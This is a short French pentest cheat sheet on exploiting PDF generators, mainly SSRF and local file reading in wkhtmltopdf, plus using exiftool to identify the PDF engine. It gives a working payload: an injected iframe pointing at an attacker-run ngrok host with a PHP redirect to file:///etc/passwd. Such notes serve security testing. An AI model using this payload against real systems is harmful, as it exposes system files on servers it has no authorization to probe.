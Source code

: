 # Exploitation de PDF

> Tips pour l'exploitation des générateurs de PDF



### 1. wkhtmltopdf

> Liens très intéressants :
>
> - http://hassankhanyusufzai.com/SSRF-to-LFI/
> - https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/
> - https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570
> - https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent

- Tenter d'envoyer une URL pingback (e.g. collaborateur burp) 

- Regarder l'user agent
- Si on a la technologie divulguée et si c'est `wkhtmltopdf`, probablement vulnérable aux SSRF (voir aux LFI via SSRF)
- Dans ce cas, utiliser ngrok
- Exemple de payload : `"><iframe src=http://ngrok/test.php?url=file:///etc/passwd></iframe>"` avec `test.php` : `<?php header('location:file://'.$_REQUEST['url']); ?>`





### 2. Exiftool

> Ne pas être timide et lancer un exiftool sur un pdf pour éventuellement voir le moteur de génération utilisé par l'application

```bash
$ exiftool <IMAGE>
```

